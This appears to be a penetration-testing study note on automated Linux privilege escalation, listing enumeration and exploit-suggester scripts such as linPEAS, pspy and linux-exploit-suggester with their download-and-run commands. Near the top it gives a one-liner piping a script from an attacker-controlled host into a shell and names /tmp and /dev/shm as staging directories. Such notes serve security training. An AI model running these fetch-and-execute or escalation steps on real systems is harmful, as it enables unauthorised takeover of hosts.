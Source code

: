 ```yaml
---
title: "Automated Exploitation"
permalink: /notes/linuxautoexploit/
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - linux
  - privesc
  - privilege escalation
  - privilege
  - escalation
  - automated
toc: true
hide_title: true
excerpt: ""
---
```


## Execution of Scripts

You can use the following method to download, execute, and store the output:

```
wget http://<Attacker_IP>/<script_name> -O- | sh | tee output.txt
```

Use writable directories like:

```
/tmp
/dev/shm
```
## Recommended and Working Scripts

### linPEAS
Comprehensive and frequently updated Linux privilege escalation auditing script.

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas_output.txt
```

### bangenum.sh
Lightweight initial Linux enumeration script.

```
wget https://raw.githubusercontent.com/bngr/OSCP-Scripts/master/bangenum.sh
sed -i -e 's/
$//' bangenum.sh
chmod +x bangenum.sh
./bangenum.sh
```

### pspy
View running processes, cron jobs, and other background tasks without root.

```
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64
```

### linux-smart-enumeration
Smart and adaptive Linux enumeration script.

```
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
chmod +x lse.sh
./lse.sh -l1
```

### SUID3NUM
SUID binary enumeration script.

```
wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py
python3 suid3num.py
```

### xploit_installer.py
Exploit suggester with Exploit-DB integration.

```
wget https://raw.githubusercontent.com/wwong99/pentest-notes/master/scripts/xploit_installer.py
python3 xploit_installer.py <exploit_id>
```

### unix-privesc-check (upc.sh)
Classic script for Unix privilege escalation checks.

```
wget https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/upc.sh
chmod +x upc.sh
./upc.sh
```

### linux-local-enum.sh
Simple local Linux privilege escalation enumeration script.

```
wget https://raw.githubusercontent.com/Arr0way/linux-local-enumeration-script/master/linux-local-enum.sh
chmod +x linux-local-enum.sh
./linux-local-enum.sh
```

### linuxprivchecker.py
Python-based Linux privilege checker.

```
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
python3 linuxprivchecker.py
```

### linux-exploit-suggester.sh
Suggests Linux kernel exploits based on system version.

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

### KernelPop
Kernel exploit enumeration and suggestion tool.

```
git clone https://github.com/spencerdodd/kernelpop.git
cd kernelpop
python3 kernelpop.py --os linux --priv
```

## Remember

- Use non-invasive scanning before attempting any exploits.
- Avoid anything that "automatically runs exploits" in real or exam environments.
